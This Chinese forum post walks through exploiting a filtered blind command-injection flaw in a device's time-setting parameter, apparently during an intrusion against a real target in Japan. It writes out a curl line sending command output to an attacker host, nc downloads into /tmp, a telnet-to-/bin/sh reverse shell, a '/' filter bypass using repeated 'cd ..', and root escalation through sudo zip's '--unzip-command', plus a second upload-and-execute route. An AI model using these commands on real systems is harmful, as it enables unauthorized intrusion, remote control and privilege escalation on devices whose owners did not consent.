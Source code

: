 

# 奇安信攻防社区-【Web实战】一次有趣的RCEbypass

### 【Web实战】一次有趣的RCEbypass

在对某樱花国渗透的时候发现一个RCE，经过多次测试后成功绕过限制拿到shell

在跟朋友一起渗透的时候发现个RCE

无回显，使用curl进行测试

![image.png](assets/1700442691-219a9651be10ecb7d379ab92ab39a12e.png)  
大哥服务器上有个接受参数回显的脚本，启动并监听

![image.png](assets/1700442691-7f33b3c4bb530d6ecfd9c1d67b78cf4f.png)  
成功接收到该回显

time=`curl x.x.x.x -d "c=$(id)"`

![image.png](assets/1700442691-255f493d267a78ffe641862f3a923b9b.png)  
尝试写入测试，失败

![image.png](assets/1700442691-0ac16d9a6107dcfe8bbd2490c6b0d523.png)

![image.png](assets/1700442691-1a8fa9e8a4b68d75b8dcaa1cd90f15be.png)  
尝试远程下载wget，powershell上线等方式，均失败

使用cat读取代码

![image.png](assets/1700442691-19d611af553dcdb4e7e8d4a818f4f296.png)

![image.png](assets/1700442691-4cda3e5d6644a9befebc957bb063db4f.png)  
简单说下代码，接受post的time参数，将T替换成空格，将/替换成-，然后把过滤过的参数放进SystemSetting\_setLocalTime函数当中

跟进函数，接收参数后拼接到$cmd\_date\_set中

![image.png](assets/1700442691-d3853ff89834c29518dec4c4f950e937.png)  
然后在48行中过滤掉|，然后拼接到exec中进行命令执行，其中|符号用不了，可以使用反引号来代替拼接

所以我们现在知道了屏蔽了 / | \\ 三个符号

梳理下思路，一般利用方式因为 /的原因，所以用不了http协议，无法尝试远程下载等方式，没有权限进行写入文件，那么现在几种方式进行bypass，第一种，替换/|\\符号，比如常见的空格符$IFS替换，第二种，进行提权写入文件，第三种，想办法再挖一个其他漏洞进行组合利用，第四种，尝试在其他目录写文件执行

那么先查看有哪些命令可用

使用compgen -c没有回显，echo $PATH只返回个H，最后使用busybox进行输出测试

![image.png](assets/1700442691-90e5b768fed846437df6c35ed72799d9.png)  
常用的思路到这卡住了，尝试使用进行读取某一个字符并输出到当前目录，但发现该方法也无效，没有生成成功output.txt

dd if=1 bs=1 skip=9 count=1 status=none of=output.txt

![image.png](assets/1700442691-faba9ff597b33bc1837ef4b933026079.png)  
继续想办法，虽然限制了/不能进行 cd ../..等，但是正常的cd ..是可以使用的

使用命令 cd ..; cd ..; cd ..; cd ..; cd tmp; nc x.x.x.x 81 > 1.sh

发现是可以成功的

![image.png](assets/1700442691-608f09539648db182e301a71b07db256.png)  
经过测试，成功步骤如下

以下简称服务端，其中被控端为目标设备

1 服务端启用nc监听，并在被控端中写入命令

被控端：cd ..; cd ..; cd ..; cd ..; cd tmp; nc x.x.x.x 81 > 1.sh

服务端：sudo nc -lvvnp 85

2 服务端写命令

telnet x.x.x.x 82 | /bin/sh | telnet x.x.x.x 83

![image.png](assets/1700442691-610a2cab996a08d288e7fb510a5ccdc0.png)  
回车后打开burp

3 被控端写命令

![image.png](assets/1700442691-4e18423f731380b46308d47951d2968c.png)  
time=`curl x.x.x.x -d "c=$(cd ..; cd ..; cd ..; cd ..; cd tmp; nc  x.x.x.x 85 > 1.sh)"`

4 发包，发现成功写入1.sh

![image.png](assets/1700442691-1b3b4fa860c178df91d972e80b3d6fdf.png)  
5 监听82,83端口

![image.png](assets/1700442691-50b7024a62d12509e359220d91757a5c.png)  
并发包

time=`cd ..; cd ..; cd ..; cd ..; cd tmp;sh 1.sh`

![image.png](assets/1700442691-bd850e52debff2c4f2d7a11b0e4a37c1.png)  
6 至此成功拿到shell

![image.png](assets/1700442691-80a46b6cd0e48764d6fa9d35303de8ab.png)  
7 进行提权

其中/etc/sudoers 设置了nobody可以使用sudo不需要输入密码的命令

![image.png](assets/1700442691-d064e3ad919bea96e98faff3371528b4.png)  
又因为/usr/bin/zip 有一个参数--unzip-command可以执行命令

所以使用以下命令就可以直接进行提权

sudo /usr/bin/zip 1aca.zip /etc/passwd -T --unzip-command="sh -c /bin/sh"

![image.png](assets/1700442691-d155367c2cd045a4e347e2e12a099394.png)  
拿到root权限

第二种方法，根据文件代码，发现一个上传点如下

![image.png](assets/1700442691-4d3a5993502bdd3e91e547d3c3bed7b7.png)  
其中路径为/svr/www，没有到网站目录/www/，那么利用方法就是上传一个文件，在使用rce进行执行拿到shell，在34行有个简单的判断是否为zip格式文件，但是并没有限制后缀名等条件

简单写个poc

![image.png](assets/1700442691-fa41bab9e392bf8beda14e469ffd0e22.png)  
其中写入的内容如下

sudo /usr/bin/zip 1aca.zip /etc/syslog.conf -T --unzip-command="sh -c 'id > /tmp/test.txt'"

![image.png](assets/1700442691-7a1dae99586d720c42f22170173bb45f.png)  
上传成功后跟之前的利用思路一样，跨目录进行读取

![image.png](assets/1700442691-e1690342885446f9b5da05f0d8056c46.png)

![image.png](assets/1700442691-89ed6ab39054db70b4fb75635c74522c.png)

![image.png](assets/1700442691-5a513080c03fac2ea92f4ee626201d33.png)  
圆满成功！感谢@昭通早行网络科技有限公司的各位师傅不吝赐教！！！

文章有错误请联系我

微信 zacaq999

